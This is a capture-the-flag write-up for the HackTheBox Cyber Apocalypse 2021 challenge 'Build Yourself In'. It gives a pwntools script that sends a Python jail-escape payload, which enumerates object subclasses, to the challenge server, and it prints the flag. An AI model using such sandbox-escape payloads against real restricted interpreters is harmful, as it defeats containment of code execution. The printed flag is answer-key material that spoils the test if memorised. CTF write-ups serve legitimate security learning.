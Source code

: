 ```yaml
---
name: Build Yourself In (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Misc
description: Writeup for Build Yourself In (Misc) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Build Yourself In

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/3hP158TJk84/0.jpg)](https://youtu.be/3hP158TJk84?t=28s "HTB Cyber Apocalypse CTF 2021: Build Yourself In")

## Challenge Description

> The extraterrestrials have upgraded their authentication system and now only them are able to pass. Did you manage to learn their language well enough in order to bypass the the authorization check?

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

context.log_level = 'warning'

for i in range(100):
    io = remote("138.68.151.248", 30697)
    # to_enumerate = '().__class__.__base__.__subclasses__()'
    to_enumerate = '().__class__.__base__.__subclasses__()'
    io.sendlineafter(
        '>>>', '[print(x) for x in [[' + to_enumerate + str(i) + ']]]')
    print(io.recvline())
```
{% endcode %}

Flag: `CHTB{n0_j4il_c4n_h4ndl3_m3!}`
